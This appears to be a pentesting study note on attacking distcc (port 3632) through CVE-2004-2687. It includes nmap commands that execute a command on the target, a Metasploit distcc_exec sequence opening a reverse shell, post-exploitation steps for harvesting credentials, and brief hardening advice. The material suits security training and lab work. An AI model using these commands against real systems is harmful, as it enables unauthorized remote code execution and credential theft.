

# 78 - distcc (Port 3632) Pentesting

## 1. Executive Summary

distcc speeds up compilation by farming out compile jobs to other machines on the network; the **distccd** daemon listens on **TCP 3632** and runs a compiler on submitted code. Its defining vulnerability is **CVE-2004-2687** — distccd allows **remote command execution** because it doesn't restrict what commands the "compiler" invocation can run. Any reachable, vulnerable distccd is a one-shot **unauthenticated RCE** (this is the classic Metasploitable box win). Simple, reliable, high impact.

## 2. Protocol Overview & Architecture

A distcc client sends preprocessed source + a compiler command line to distccd, which executes it and returns the result. The flaw: the daemon executes the supplied command without authentication or proper restriction, so an attacker crafts a "compile" job whose command is actually an arbitrary shell command — executed as the user running distccd.

## 3. Enumeration & Footprinting

```bash
nmap -sV -p 3632 <IP>      # 'distccd'
# Confirm CVE-2004-2687
nmap -p 3632 <IP> --script distcc-cve2004-2687 --script-args="distcc-exec.cmd='id'"
```

## 4. Exploitation Deep Dive

### 4.1 RCE — CVE-2004-2687
```bash
# nmap script runs a command directly:
nmap -p 3632 <IP> --script distcc-cve2004-2687 --script-args="distcc-exec.cmd='id'"
```
Metasploit module for a full session:
```
msf> use exploit/unix/misc/distcc_exec
msf> set RHOSTS <IP>
msf> set PAYLOAD cmd/unix/reverse
msf> run
```
Executes as the distccd user (often a low-priv account → then escalate).

## 5. Mermaid Attack Flow



## 6. Post-Exploitation
- Shell as the distccd user → foothold.
- Enumerate for privesc; harvest local creds/keys.

## 7. Defense & Hardening
1. **Disable distcc** on internet/untrusted networks; use only in trusted build clusters.
2. Restrict distccd to known builder IPs (`--allow`); firewall 3632.
3. Run as an unprivileged, sandboxed account; patch/replace vulnerable versions.

## 8. Chaining Opportunities
- Shell → **[[08 - Linux Privilege Escalation]]**.

## 9. Related Notes
- [[45 - Remote GDBServer Pentesting]]
- [[79 - Subversion SVN (Port 3690) Pentesting]]

## 10. Tools
`nmap` distcc-cve2004-2687, Metasploit `distcc_exec`.
